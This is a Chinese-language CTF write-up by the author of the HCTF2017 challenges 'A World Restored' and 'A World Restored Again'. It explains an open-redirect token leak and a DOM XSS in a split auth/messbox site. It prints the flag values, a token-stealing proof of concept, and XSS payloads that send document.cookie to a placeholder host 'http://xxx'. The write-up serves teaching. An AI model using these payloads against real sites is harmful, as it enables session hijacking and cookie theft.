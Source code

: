 ```yaml
---
title: HCTF2017-A World Restored-Writeup
date: 2017-11-15 17:30:45
tags:
- xss
---
```



```
A World Restored
Description:
nothing here or all the here ps:flag in admin cookie 
flag is login as admin
URL http://messbox.2017.hctf.io
Now Score 674.44
Team solved 7
```

```
A World Restored Again
Description: 
New Challenge !! 
hint: flag only from admin bot
URL http://messbox.2017.hctf.io
Now Score 702.6
Team solved 6
```
题目源码如下：
[https://github.com/LoRexxar/HCTF2017-A-World-Restored](https://github.com/LoRexxar/HCTF2017-A-World-Restored)

<!--more-->

A World Restored在出题思路本身是来自于uber在10月14号公开的一个漏洞[https://stamone-bug-bounty.blogspot.jp/2017/10/dom-xss-auth_14.html](https://stamone-bug-bounty.blogspot.jp/2017/10/dom-xss-auth_14.html)，为了能尽可能的模拟真实环境，我这个不专业的Web开发只能强行上手实现站库分离。

其中的一部分非预期，也都是因为站库分离实现的不好而导致的。（更开放的题目环境，导致了很多可能，或许这没什么不好的？

整个站的结构是这样的：
1、auth站负责用户数据的处理，包括登陆验证、注册等，是数据库所在站。
2、messbox站负责用户的各种操作，但不连接数据库。

这里auth站与messbox站属于两个完全不同的域，受到**同源策略**的影响，我们就需要有办法来沟通两个站。

而这里，我选择使用token做用户登陆的校验+jsonp来获取用户数据。站点结构如下:

![image.png-37.7kB][1]

简单来说就是，messbox登陆账号完全受到token校验，即使你在完全不知道账号密码的情况下，获取该token就可以登陆账号。

那么怎么获取token登陆admin账号就是第一题。

而第二题，漏洞点就是上面文章中写的那样，反射性的domxss，可以得到服务端的flag。

为了两个flag互不干扰，我对服务端做了一定的处理，服务端负责处理flag的代码如下：
```
$flag1 = "hctf{xs5_iz_re4lly_complex34e29f}";
$flag2 = "hctf{mayb3_m0re_way_iz_best_for_ctf}";

if(!empty($_SESSION['user'])){
	if($_SESSION['user'] === 'hctf_admin_LoRexxar2e23322'){
                setcookie("flag", $flag, time()+3600*48," ","messbox.2017.hctf.io", 0, true);
        }

	if($_SESSION['user'] === 'hctf_admin_LoRexxar2e23322' && $_GET['check']=="233e"){
		setcookie("flag2", $flag2, time()+3600*48," ",".2017.hctf.io");
	}
}
```

可以很明显的看出来，flag1是httponly并在messbox域下，只能登陆才能查看。flag2我设置了check位，只有bot才会访问这个页面，这样只有通过反射性xss，才能得到flag。

下面我们回到题目。

# A World Restored #

```
A World Restored
Description:
nothing here or all the here ps:flag in admin cookie 
flag is login as admin
URL http://messbox.2017.hctf.io
Now Score 674.44
Team solved 7
```

这道题目在比赛结束时，只有7只队伍最终完成了，非常出乎我的意料，因为漏洞本身非常有意思。（这个漏洞是ROIS发现的）

为了能够实现token，我设定了token不可逆的二重验证策略，但是在题目中我加入了一个特殊的接口，让我们回顾一下。

auth域中的login.php，我加入了这样一段代码

```
if(!empty($_GET['n_url'])){
		$n_url = trim($_GET['n_url']);
		echo "<script nonce='{$random}'>window.location.href='".$n_url."?token=".$usertoken."'</script>";
		exit;
	}else{
		// header("location: http://messbox.hctf.com?token=".$usertoken);
		echo "<script nonce='{$random}'>window.location.href='http://messbox.2017.hctf.io?token=".$usertoken."'</script>";
		exit;
	}
```

这段代码也是两个漏洞的核心漏洞点，假设你在未登录状态下访问messbox域下的user.php或者report.php这两个页面，那么因为未登录，页面会跳转到auth域并携带n_url，如果获取到登陆状态，这里就会拼接token传回messbox域，并赋予登陆状态。

简单的流程如下：
```
未登录->获取当前URL->跳转至auth->获取登陆状态->携带token跳转到刚才获取的URL->messbox登陆成功
```

当然，这其中是有漏洞的。

服务端bot必然登陆了admin账号，如果我们直接请求login.php并制定下一步跳转的URL，那么我们就可以获取拼接上的token！

```
poc

http://auth.2017.hctf.io/login.php?n_url=http://{you_website}
```

得到token我们就可以登陆messbox域，成功登陆admin


# A World Restored Again #

```
A World Restored Again
Description: 
New Challenge !! 
hint: flag only from admin bot
URL http://messbox.2017.hctf.io
Now Score 702.6
Team solved 6
```

到了第二部，自然就是xss了，其实题目本身非常简单，在出题之初，为了避免题目出现“垃圾时间”（因为非预期导致题目不可解），我在题目中加入了跟多元素。

并把flag2放置在`.2017.hctf.io`域下，避免有人找到messbox的xss但是打不到flag的问题。（没想到真的用上了）

这里我就简单描述下预期解法和非预期解法两个。

## 预期解法 ##

预期解法当然来自于出题思路。

[https://stamone-bug-bounty.blogspot.jp/2017/10/dom-xss-auth_14.html](https://stamone-bug-bounty.blogspot.jp/2017/10/dom-xss-auth_14.html)

漏洞本身非常简单，但有意思的是利用思路。

**当你发现了一个任意URL跳转的漏洞，会不会考虑漏洞是怎么发生的？**

也许你平时可能没注意过，但跳转一般是分两种的，第一种是服务端做的，利用`header: location`,这种跳转我们没办法阻止。第二种是js使用`location.href`导致的跳转。

既然是js实现的，那么是不是有可能存在dom xss漏洞呢？

这个uber的漏洞由来就是如此。

这里唯一的考点就是，js是一种顺序执行的语言，如果location报错，那么就不会继续执行后面的js，如果location不报错，那么就可能在执行下一句之前跳转走。

当然，办法很多。最普通的可能是在location后使用`stop()`来阻止跳转，但最好用的就是新建script块，这样上一个script报错不会影响到下一个script块。

最终payload
```
</script><script src="http://auth.hctf.com/getmessage.php?callback=window.location.href='http://xxx?cookie='+document.cookie;//"></script

exp

http://auth.2017.hctf.io/login.php?n_url=%3E%3C%2fscript%3E%3Cscript%20src%3D%22http%3A%2f%2fauth.2017.hctf.io%2fgetmessage.php%3Fcallback%3Dwindow.location.href%3D%27http%3A%2f%2fxxx%3Fcookie%3D%27%252bdocument.cookie%3B%2f%2f%22%3E%3C%2fscript%3E
```

## 非预期解法 ##

除了上面的漏洞以外，messbox也有漏洞，username在首页没有经过任何过滤就显示在了页面内。

但username这里漏洞会有一些问题，因为本身预期的漏洞点并不是这里，所以这里的username经过我框架本身的一点儿过滤，而且长度有限制，所以从这里利用的人会遇到很多非预期的问题。

payload如下，注册名为
```
<script src=//auth.2017.hctf.io/getmessage.php?callback=location=%27http://xxx/%27%2bbtoa(document.cookie);//></script>
```
的用户名，并获取token。

传递
```
http://messbox.2017.hctf.io/?token=NDYyMGZlMTNhNWM3YTAxY3xQSE5qY21sd2RDQnpjb
U05THk5aGRYUm9Makl3TVRjdWFHTjBaaTVwYnk5blpYUnRaWE56WVdkbExuQm9jRDlqWVd4c1ltR
mphejFzYjJOaGRHbHZiajBsTWpkb2RIUndPaTh2Y205dmRHc3VjSGN2SlRJM0pUSmlZblJ2WVNoa
2IyTjFiV1Z1ZEM1amIyOXJhV1VwT3k4dlBqd3ZjMk55YVhCMFBnPT0=
```
即可


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bp6f3b81h84qt19qc00ws80q/image.png